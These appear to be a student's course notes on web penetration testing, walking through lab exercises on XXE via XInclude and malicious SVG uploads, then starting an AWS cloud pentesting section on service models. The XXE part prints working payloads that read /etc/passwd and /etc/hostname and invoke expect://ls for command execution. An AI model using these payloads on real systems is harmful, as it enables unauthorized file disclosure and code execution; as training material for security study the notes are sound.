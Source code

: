 
TYPE 2: Blind XXE
•	Lab 3: Exploiting XInclude to retrieve files
o	For POST /product/stock HTTP/1.1
productId=2&storeId=3
o	Here, there is no XML code to inject XEE
o	In this case we have to use XInclude statement to retrieve the data.
o	XInclude:
	A part of the XML specification that allows an XML document to be built from sub-documents. 
	Can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.
•	For ex: productId=2 & storeId=3 (in the place of 2 and 3)
	To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include.
	For example:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
o	productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=3

TYPE 1: File Retrieval XXE 
•	Lab 4: Exploiting XXE via image file upload
o	Here we can inject payload into the .svg image file.
o	Scalable Vector Graphics (SVG) are an XML-based markup language for describing two-dimensional based vector graphics.
o	Payload.svg
	<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
o	Or payload2.svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" 
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text></svg>
o	Upload payload.svg file on server and open into new tab
o	Or view page source find the image link and open it.

 
Section 8
AWS PEN-TESTING

1. Pentesting in the Cloud:
	The cloud computing service models
o	Created by the NIST 2009
o	Offer scalability and flexibility.
o	3 Service modalities:
	IaaS (Infrastructure-as-a-service)
•	On-demand virtualized IT infrastructure
•	Most complete modality
•	Most Flexible
•	Provides infrastructure services.
o	Like network, storage, and virtualization
